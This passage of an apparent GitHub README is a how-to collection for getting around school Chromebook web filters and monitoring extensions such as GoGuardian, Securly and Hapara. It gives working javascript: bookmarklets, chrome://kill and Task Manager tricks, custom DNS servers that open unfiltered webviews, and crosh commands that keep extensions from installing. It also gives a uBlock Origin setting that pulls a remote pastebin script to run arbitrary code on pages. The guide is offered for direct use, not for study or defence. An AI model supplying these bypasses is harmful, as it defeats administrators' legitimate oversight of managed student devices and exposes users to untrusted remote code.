2. Go to a new tab page and type in the URL Website you want to unblock don´t go into that website yet just leave it inside the URL Box.
3. Go back to chrome-extension://Paste the blocker id here/manifest.json now create a bookmark called E now click more and In the URL Box you put chrome://kill now save that bookmark.
4. Create another bookmark called D. Click more In the URL Box copy and paste  `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`    Into that URL Box and save that bookmark.
5. Go back to chrome-extension://Paste the blocker id here/manifest.json page and now click bookmark B. Then quickly go back to the new tab page and click enter now quickly spam bookmark D like 2 or more times now there should be a pop-up called `Do you want to close this page?` click cancel now boom that website is unblocked until you turn off your Chromebook or until you exit out of that website then if that happens your gonna have to do all the steps again.

An easier way for step 2: instead of putting the URL in the new tab box go to chrome-extension://Paste the blocker id here/manifest.json page then click Bookmark E then go to a random website then use the `javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1))` Bookmarklet then spam Bookmark D two or more times then a pop up should appear quickly click cancel now boom all done.
  
Name of Bookmarklet > Unblock Website: `javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1))`

Note: Save `chrome-extension://Paste` the blocker id here/manifest.json as a bookmark so you don´t have to come back here and type in the URL thing.

IMPORTANT NOTE: if bookmarklets are blocked your screwed

</details>

<details>
<summary><b>Old Temporarily Unblock Anything</b> Temperarily Unblock Any Website</summary>

1. make a bookmark called tab close blocker now click more on the bottom left corner in that URL BOX put `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`
2. go to a newtab page now go into the URL BOX on the top and put https://YOUR WEBSITE HERE do not click enter yet stay in that URL BOX.
3. do search+esc now that should open task manager if search+esc doesn't work then click the three dots on the top right now and scroll down until you find more tools click that and now find Task Manager click it now boom done with step 3.
4. find your blocker extension and click it now on the bottom right you should see a button called End process click it now quickly click the URL BOX on the new page and click enter now quickly spam the bookmark tab close blocker Now a pop up should come up it should have to buttons cancel and leave click cancel and boom done.
  IMPORTANT NOTE: if bookmarklets are blocked your screwed also if task manager or the End Process button for the task manager is blocked your double screwed.
  </details>
  
  <details>
  <summary><b>Incognito</b> Bypass Extensions</summary>
IP Server: Server 1. 52.207.185.90

1. Go to your settings
2. Click on the wifi your using rn then click it again.
3.  Scroll down until you see network once you see the option click it.
4. Scroll down until you find custom name servers now once you find the option click it.
5. Paste in the IP Server.
6. Now there should be a notification saying open a new tab click that and now you should be in a small window some instructions and there are 2 buttons click the yellow with black letters button and boom Incognito Mode is Unblocked.
One of the buttons are just a link in blue don´t click that one is just for tests
7. Go back to the network settings and change the custom name servers to automatic name servers.

Note: If your connection is slow if your school has more than one wifi then connect to the other wifi that might have a better connection.
If you close out of the Incognito Tab you will have to do all the steps again.
Cool Advanced Facts About Incognito Mode:
1. Bypass Extensions Aka Unblock All Websites.
2. Your History Is Hidden From Your School
</details>
<details>
<summary><b>Google System Method</b> Bypass Extensions</summary>
Unblocked Google

1. Go to `chrome://chrome-signin`
2. Click OK on the bottom right corner
3. In the Email text box put `google@d11.org`
4. Click `signin options`
5. Now click sign in with GitHub
6. Click the GitHub cat icon
7. In the search box on the top right type google and then click see more topics then you will see all the Google links click `www.google.com` now boom unblocked Google.

</details>
<details>
<summary><b>Quick View</b> Bypass Extensions</summary>
**QuickView is a universal web view exploit in Chrome OS that utilizes the QuickOffice component extension. This exploit lets you create login windows with arbitrary URLs, thus allowing you to load pages without any extensions.**
Go here and follow the instructions: https://quickview-exploit.pages.dev/
WARNING: If javascript:// is blocked then you can't perform this exploit

</details>

<details>
<summary><b>School Network Restriction Bypass</b> Bypass School Network Restrictions</summary>
IP Server 1: 8.8.8.8 in all boxes
IP Server 2: 1.1.1.1 in the first box and 1.0.0.1 in the second box the third and fourth boxes stay 0.0.0.0

1. Go to your settings
2. Click on the wifi you using right now then click it again.
3.  Scroll down until you see the network once you see the option click it.
4. Scroll down until you find custom name servers once you find the option click it.
5. Paste in one of the IP Servers.
Note: If IP Server 1 doesn't work then use IP Server 2 if IP Server 2 doesn't work then try using IP Server 1 if they both don't work you're screwed

</details>

<details>
<summary><b>OP Crosh</b> Disable extensions with crosh</summary>

1. Back up any data you want before the powerwash.
2. If you're doing the second variation, note down any extension IDs. You may also want to do this if you intend on disabling all extensions since sometimes that will fail and require you to specify each extension you want to disable.
3. Powerwash by attempting to enable developer mode. Instructions are available here: [this link](https://chromium.googlesource.com/chromiumos/docs/+/master/developer_mode.md#dev-mode)
4. Log into your Google account as normal, but immediately disable your internet right after you sign in.
5. You should be logged into your account, but without any extensions installed due to being offline.
Here the instructions are split, so follow the one for the method that you want to do.
 
Disable All Extensions:
1. Open up crosh by hitting ctr+alt+t.
2. Type in `vmc create-extra-disk --size 1 /home/chronos/user/Extensions`
3. Run that command.
4. If it fails with a "file exists" error, then you must individually specify each extension that you want to remove. Move to step 5 of the next section to do that.
5. Re-enable your internet, and no extensions should be installed.
 

Disable Specific Extensions:
1. Navigate to `chrome://extensions`.
2. Enable your internet, and immediately disable it when an extension is installed.
3. Assuming the installed extension was not one that you were trying to disable, move on to step 4. If it was, you'd have to powerwash to try again.
4. Open up crosh by hitting ctr+alt+t.
5. For each extension you want to disable, run this command: `vmc create-extra-disk --size 1 /home/chronos/user/Extensions/{extension_id}`
6. Each command should look something like this: `vmc create-extra-disk --size 1 /home/chronos/user/Extensions/cjpalhdlnbpafiamejdnhcphjbkeiagm`
7. Re-enable your internet, and if you typed/pasted in the extension IDs correctly, those specific extensions should be blocked from ever being installed.

Made by vk6

</details>

<details>
<summary><b>uBlock Origin</b> Run Code On Pages</summary>

if your school allows the ublock origin chrome extension, then running the edpuzzle script (as well as any other bookmarklet) is possible

1. install ublock origin (<a href="https://chrome.google.com/webstore/detail/ublock-origin/cjpalhdlnbpafiamejdnhcphjbkeiagm">https://chrome.google.com/webstore/detail/ublock-origin/cjpalhdlnbpafiamejdnhcphjbkeiagm</a>)

2. go to the extension's settings

3. under the settings tab, check the "i am an advanced user" box and click on the cog icon

4. inside the advanced settings (chrome-extension://cjpalhdlnbpafiamejdnhcphjbkeiagm/advanced-settings.html), scroll down and find userResourcesLocation now change userResourcesLocation from unset to <a href="https://pastebin.com/raw/PPZ1T7uh">https://pastebin.com/raw/PPZ1T7uh</a>

5. in the My filters tab of the settings (chrome-extension://cjpalhdlnbpafiamejdnhcphjbkeiagm/dashboard.html#1p-filters.html), add *##+js(execute_script.js) as a filter

6. now you can press ctr+alt+tilde (~) to run any js on the current page

7. if you want to run a bookmarklet, just paste in the javascript: url and press ok on the popup

</details>

</details>

<details>
<summary><b>Incognito on Sign-In</b> Bypass Extensions/Unblocked Google Webview</summary>
Might work but idk if it will

IP Servers: Server 1. `52.207.185.90`
            Server 2. `158.111.114.159`

1. On the sign-in screen go to your Wi-Fi settings and click on the wifi you are using right now.
2. Then Scroll down until you see network once you see the option click it.
3. Scroll down until you find custom name servers once you find the option click it.
4. Paste in the IP Servers
5. Now on the network settings click the sign in and you should be in a small window with some instructions, there are 2 buttons click the blue link and boom unblocked webview of google.

Cool Facts About Incognito Mode:
1. No Extensions.
2. Your History Is Hidden From Your School*

*If your school does not have network logs or anything like that

</details>

<details>
<summary><b>chrome-signin webview</b> Yet another webview bypass</summary>
  
1. Go to `chrome://chrome-signin`
2. Click OK on the bottom right corner
3. In the Email text box put `google@d11.org`
4. Click `sign in options`
5. Now click sign in with GitHub
6. Click the GitHub logo
7. In the search box on the top right type Google and then click see more topics then you will see all the Google links click `www.google.com`
8. Profit

</details>

<details>
<summary><b>chrome-signin webview 2</b> Yet another webview bypass</summary>
Unblocked Google
  
1. Go to `chrome://chrome-signin`
2. Click OK on the bottom right corner
3. In the Email text box put `google@d11.org`
4. Click `signin options`
5. Now click sign in with GitHub
6 Click forgot password instead of the GitHub logo
7. Click docs
8. Scroll down
9. Click Ask the GitHub community
10. Search Google and click the hyperlink on the right

Credit to snail for finding this workaround.

</details>

<details>
<summary><b>Microsoft Labs</b> Bypass Extensions</summary>

YOU NEED A MICROSOFT ACCOUNT FOR THIS

Go to: <a href="https://learn.microsoft.com/en-us/training/modules/implement-common-integration-features-finance-ops/10-exercise-1">https://learn.microsoft.com/en-us/training/modules/implement-common-integration-features-finance-ops/10-exercise-1</a>

Next, sign into your Microsoft account, if it doesn't already, go back to that link

Then, hit Launch VM Mode

After it loads it's gonna ask for a password, the password is pass@word1 See images attached if needed

Then boom, you are done.

It's still kinda limited, like you can't go on Spotify sound doesn't output anyway and it, blocks random sites, but Discord 100% works

</details>

<details>
<summary><b>Quick View Exploit</b> Bypass Extensions</summary>

**QuickView is a universal webview exploit in Chrome OS that utilizes the QuickOffice component extension. This exploit lets you create login windows with arbitrary URLs, thus allowing you to load pages without any extensions.**

Go to <a href="https://quickview-exploit.pages.dev/">this link</a> and follow instructions

WARNING: If javascript:// is blocked then you can't preform this exploit

</details>

<details>
<summary><b>Buypass</b> Temporarily Unblock Websites</summary>

Exploit Made By <a href="https://buymeacoffee.com/bypassi">Bypassi#7037</a>

Here's the original GitHub repo of the buypass exploit: <a href="https://github.com/bypassiwastaken/buypass">Bypassi#7037's Buypass Exploit Github Repo</a>

Here's the original website of the buypass exploit: <a href="https://buypass.bypassi.com/">Bypassi#7037's Buypass Exploit Website</a>

Here are 3 alternative websites for the buypass exploit:

1. <a href="https://buypass.brandonprather.repl.co/">Buypass Exploit Repl Website</a>

2. <a href="https://buypass.glitch.me/">Buypass Exploit Glitch Website</a>

3. <a href="https://buypass.netlify.app/">Buypass Exploit netlify.app Website</a>

This Exploit Is Kinda Similar To The Quick View Exploit

</details>

<details>
<summary><b>[Webview] Testnav Exploit</b> Unblocked Webview for either google or a web browser</summary>

Step 1. Download Testnav off the webstore/playstore/or run as a kiosk app as some schools have it added as one
Step 2. Open it
Step 3. After opened it will probably bring you to the page were you select your consumer, click aimsweb/aimsweb plus
Step 4. After you click goto select your district in the bottom right corner of the page
Step 5. Select “STRATFORD FRIENDS SCHOOL” 
Step 6. Click the arrow to the right of the selection box
Step 7. Click sign in options
a) Click sign in with github
Step  8. Click the github logo at the top of the screen
Step 9. Click the three bars in the top right corner, then goto the search box and type in googleyay
Step 11. Scroll down until you see DerDer56/googleyay
Step 12. There's several links to choose from, but if there's a link you want that's not there click the Bypassi Redirect Tool
(Optional) Step 13. Type in the link you want to go on and click "Go To the URL"
Step 14. Click it and you have webview (unblocked browser)

</details>

<details>
<summary><b>Disable GoGuardian With The Chat</b> Disable GoGuardian [Unreliable]</summary>

1. wait until your teacher opens the chat window thingy

2. spam the x button until it stops re-opening

3. open the url `chrome-extension://haldlgldplgnggkjaafhelgiaglafanh/manifest.json`

4. open `chrome://extensions/?id=haldlgldplgnggkjaafhelgiaglafanh`, and toggle the “allow access to file:// urls” switch

goguardian is now disabled and you can close both tabs 

made by carteeeee

</details>

<details>
<summary><b>Temporary Disable GoGuardian using a dns</b> Temporarily Disable GoGuardian</summary>

This method will remove GoGuardian from your Chromebook and keep it off, until you switch to a non-DNS wifi

1 - Powerwash your Chromebook

A) esc+refresh+power

B) then "ctrl"+"d" and then space or enter from then on

2 - Immediately after you add wifi to your Chromebook add the DNS record 158.101.114.159

A) Click on the menu at the bottom right of the screen and Click the Settings icon, go to your wifi, scroll to the bottom and open the networks dropdown, choose the "Custom name server" bubble, change the first box to 158.101.114.159

</details>

<details>
<summary><b>Insecurly</b> Disable Or Bypass Securly</summary>

**ONLY FOR SECURLY USERS**

Go to <a href="https://insecurly.bypassi.com/">this link</a> and follow instructions

If blocked then go cry in a corner
</details>

<details>
<summary><b>Chaos</b> A full bypass method for Hapara Highlights and Hapara Filter</summary>

**Devtools must not be blocked by policy to perform this exploit.**

Go to <a href="https://xlak.github.io/chaos/">this link</a> and follow instructions

If blocked then go cry in a corner
</details>

boop
